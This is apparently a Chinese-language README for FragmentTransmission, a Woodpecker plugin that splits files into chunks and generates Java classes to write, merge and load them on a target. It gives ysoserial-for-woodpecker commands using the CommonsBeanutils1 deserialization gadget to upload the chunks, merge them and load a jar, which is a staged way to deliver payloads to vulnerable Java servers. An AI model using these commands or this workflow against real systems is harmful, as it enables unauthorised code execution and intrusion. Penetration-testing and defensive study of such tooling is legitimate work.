




# Woodpecker分块传输插件-FragmentTransmission

## 功能介绍
1. 一键生成将文件分片
2. 动态生成分片文件写入与合并执行的Class

仅提供文件分片与Class生成功能，如需结合反序列化漏洞可使用`ysoserial-for-woodpecker`
上传分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:分块1-10.file"
```

合并分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:MergeByNameCode1.class"
```
加载Jar
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:FileloaderInvokeFIlename.class"
```
测试发现BCEL没办法加载动态生成的Class

如需封装成漏洞POC工具自行修改

## 说明
1.FileSplitPlugin文件分片
2.GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用
3.GenerateBlockClassTmpPlugin动态生成分块与合并class加载执行，写分块文件到tmp中
4.与3功能一致，可指定写入分块的路径，用于已知路径写入，推荐使用3

在Windows下路径使用`/`,否则在javassist会报错。


## 使用
FileSplitPlugin文件分片


GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用



GenerateBlockClassTmpPlugin,生成Class文件代码将切片文件写入到临时文件夹中


GenerateBlockClassPathPlugin指定切片文件写入路径Class生成




